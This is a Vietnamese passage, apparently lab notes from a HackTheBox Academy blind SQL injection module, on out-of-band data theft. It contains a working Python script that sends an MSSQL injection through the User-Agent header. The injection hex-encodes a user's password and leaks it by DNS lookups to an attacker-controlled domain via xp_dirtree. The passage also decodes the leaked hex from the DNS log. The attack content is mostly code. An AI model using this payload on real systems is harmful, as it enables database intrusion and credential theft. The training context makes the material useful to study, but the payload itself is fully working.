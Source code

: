 
### **5. Tự động hóa với Python**

#### **Tự động gửi payload:**
```python
import requests

# Thay YOUR.DOMAIN bằng tên miền bạn kiểm soát
DOMAIN = "blindsqli.academy.htb"

# Hàm gửi payload qua HTTP header
def send_payload(payload):
    headers = {
        "User-Agent": payload
    }
    url = "http://target-website.com"
    requests.get(url, headers=headers)

# Payload SQL
payload = """maria';DECLARE @T VARCHAR(MAX), @A VARCHAR(63), @B VARCHAR(63);
SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), password), 1) FROM users WHERE username='maria';
SELECT @A=SUBSTRING(@T,3,63), @B=SUBSTRING(@T,66,63);
EXEC('master..xp_dirtree "\\'+@A+'.'+@B+'.%s\"');--""" % DOMAIN

# Gửi payload
send_payload(payload)
```

---

### **6. Giải mã dữ liệu từ log DNS**

- **Dữ liệu trong log:** 
  ```
  736563726574.6578616d706c65.blindsqli.academy.htb
  ```

- **Giải mã bằng Python:**
```python
# Dữ liệu bị trích xuất
encoded_data = "7365637265746578616d706c65"

# Chuyển đổi từ hex sang string
decoded_data = bytes.fromhex(encoded_data).decode('utf-8')
print(f"Dữ liệu giải mã: {decoded_data}")
```

---

### **7. Tối ưu hóa kịch bản**

#### **Tự động hóa toàn bộ quy trình:**
- Kết hợp các bước:
  1. **Tách dữ liệu lớn thành nhiều subdomain.**
  2. **Gửi từng phần dữ liệu qua DNS.**
  3. **Giải mã và hợp nhất dữ liệu.**
